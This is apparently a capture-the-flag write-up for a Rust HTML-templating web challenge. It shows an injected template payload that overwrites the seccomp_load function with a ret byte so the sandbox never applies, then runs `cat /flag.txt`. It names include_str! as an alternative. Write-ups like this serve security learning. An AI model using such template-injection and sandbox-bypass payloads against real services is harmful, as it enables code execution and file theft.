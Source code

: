 ## Electroplating

Category: Web

Author: Tony



The app provides a simple 'HTML templating' function implemented in Rust. Anything between `<templ>` tags is compiled into a Rust function, which is called when the template tag is encountered. The compiled site is then hosted internally in the Docker container, and the contents is requested and displayed by the public-facing website to the user.

The download contains a precompiled version of the `seccomp_sys` Rust library, along with all other dependencies. The Rust source is written from a template in a Python file, and then compiled on-the-fly. After opening a web server, the Rust app applies a seccomp filter, allowing only the syscalls:

```rust
static ALLOWED: &'static [usize] = &[0, 1, 3, 11, 44,
                                     60, 89, 131, 202,
                                     231, 318];
// read, write, close, munmap, sendto, exit, readlink, sigaltstack, futex, exit_group, getrandom
```

Some experimentation reveals that these are the bare minimum syscalls that allows the app to function; none of which will allow RCE or file write.

### Solution

To solve the challenge, we simply have to prevent the seccomp filter being applied in the first place. We are unable to execute code before the seccomp function is called but we can modify compile-time attributes of the app.

```rust
<templ>
use std::process::Command;
let output = Command::new("cat").arg("/flag.txt").output().unwrap().stdout;
use std::str;
    let s = match str::from_utf8(&output) {
        Ok(v) => v,
        Err(e) => panic!("Invalid UTF-8 sequence: {}", e),
    };
    s.to_string()

}

#[no_mangle]
#[link_section=".text"]
pub static seccomp_load: [u8; 1] = [195];

fn nothing() {
    ()
</templ>
</html>
```

```rust
#[no_mangle]
#[link_section=".text"]
pub static seccomp_load: [u8; 1] = [195];
```

is the important part - this simply overwrites the `seccomp_load` function (eventually called by `apply_seccomp`) with a `ret`. The first function in our `<templ>` will be run, printing the flag out. We can then read the flag, `rarctf{D0n7_l3t-y0ur-5k1ll5-g0-rus7y!-24c55263}`.

### Unintended method
The challenge could also be solved using the `include_str!` macro to include the flag file directly into the binary.
